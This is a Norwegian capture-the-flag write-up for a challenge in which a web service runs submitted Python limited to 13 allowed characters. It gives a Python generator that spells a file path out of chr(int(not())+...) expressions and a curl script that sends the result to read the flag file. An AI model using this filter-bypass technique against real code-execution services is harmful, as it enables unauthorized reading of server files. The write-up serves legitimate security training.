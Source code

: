 ### Not cipher
Utvikler Carl I. Pher trenger av og til å kjøre python-programmer på webserveren sin. Derfor har han laget en veldig enkel webtjeneste for å sende inn python-programmer og returnere output:

Eksempelkjøring av program: curl 'http://server/?program=print(repr(repr))'

For å hindre misbruk er kun 13 forskjellige tegn tillatt i python-programmet: not+cipher(*)

Dessverre viser det seg at dette ikke er godt nok. Hent ut flagget i /lol/hemmeligmappe/flagg.txt

#### Løsning
Her har man kun 13 tegn man kan bruke, og fil-banen vi skal til har mange bokstaver som vi ikke har tilgjengelig. Heldigvis har vi nok bokstaver til `chr`, noe som betyr at vi kan gjøre tall om til bokstaver. Men da er problemet, hvordan skal man få tall? Her kan vi bruke et par forskjellige måter:

1. `int()**int()`. Dette blir 0^0=1
2. `int(not())` 

Jeg valgte å bruke int(not()) for å redusere lengden.

Måten jeg løste det på var å lage et python script til å generere en lang rekke med `chr(int(not())+int(not()))+...`.

```python
path = "/lol/hemmeligmappe/flagg.txt"
one = "int(not())+"

script_content = "print(*open("

for char in path:
    ascii_value = ord(char)
    char_expression = one * ascii_value
    script_content += "chr(" + char_expression[:-1] + ")+"

script_content = script_content.rstrip('+') + "))"

with open("solve.py", "w") as file:
    file.write(script_content)
```
Her får jeg ascii tallet for hver bokstav i filbanen og ganger dette med stringen `"int(not())+"` sånn at vi lager det samme tallet. Til slutt legger vi til `print(*open(` i starten og `))` på slutten og skriver det til en ny fil. Innholdet av denne filen er det vi sender til serveren.

Problemet her er at filen er for stor til å bli limt inn i terminalen, så vi må også lage et bash script for å sende det.
```sh
#!/bin/bash

script_path="solve.py"
url_encoded_script=$(<"$script_path" python3 -c "import sys, urllib.parse; print(urllib.parse.quote(sys.stdin.read()))")
url="https://helsectf2024-2da207d37b091b1b4dff-not-cipher.chals.io/?program=$url_encoded_script"
curl "$url"
```


`helsectf{lange_programmer_lever_lengst}`
